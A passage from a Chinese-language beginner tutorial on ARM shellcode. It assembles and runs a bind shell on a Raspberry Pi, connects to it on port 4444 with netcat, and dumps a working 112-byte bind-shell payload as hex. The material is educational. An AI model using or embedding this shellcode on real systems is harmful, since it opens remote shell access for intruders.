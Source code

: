 ## 六、测试shellcode

将以上汇编代码保存为`bind_shell.s`文件。在使用`ld`命令时，记得加上`-N`标志。之所以这么做，是因为我们使用了多个strb操作来修改我们的代码段（`.text`）。这就要求代码段处于可写状态，我们可以在链接过程中添加`-N`标志完成这个任务。

```
pi@raspberrypi:~/bindshell $ as bind_shell.s -o bind_shell.o &amp;&amp; ld -N bind_shell.o -o bind_shell
pi@raspberrypi:~/bindshell $ ./bind_shell
```

接下来，连接到我们设定的那个端口。

```
pi@raspberrypi:~ $ netcat -vv 0.0.0.0 4444
Connection to 0.0.0.0 4444 port [tcp/*] succeeded!
uname -a
Linux raspberrypi 4.4.34+ #3 Thu Dec 1 14:44:23 IST 2016 armv6l GNU/Linux
```

成功了！现在，我们可以将程序转换为十六进制字符串，命令如下：

```
pi@raspberrypi:~/bindshell $ objcopy -O binary bind_shell bind_shell.bin
pi@raspberrypi:~/bindshell $ hexdump -v -e '"\""x" 1/1 "%02x" ""' bind_shell.bin
x01x30x8fxe2x13xffx2fxe1x02x20x01x21x92x1axc8x27x51x37x01xdfx04x1cx12xa1x4ax70x0ax71x4ax71x8ax71xcax71x10x22x01x37x01xdfxc0x46x20x1cx02x21x02x37x01xdfx20x1cx49x1ax92x1ax01x37x01xdfx04x1cx3fx27x20x1cx49x1ax01xdfx20x1cx01x31x01xdfx20x1cx01x31x01xdfx05xa0x49x40x52x40xc2x71x0bx27x01xdfxc0x46x02xffx11x5cx01x01x01x01x2fx62x69x6ex2fx73x68x58
```

我们得到了bind shellcode！这段shellcode长度为112个字节。本文是一个初学者教程，为了简单起见，我们并没有尽量去精简这段shellcode。最初的shellcode成功后，大家可以使用各种方法来缩减指令数，这样就能缩短shellcode篇幅。

希望大家读完本文后能有所收获，可以利用所学知识来编写自己的shellcode。如果有任何意见或建议，请随时与我联系。
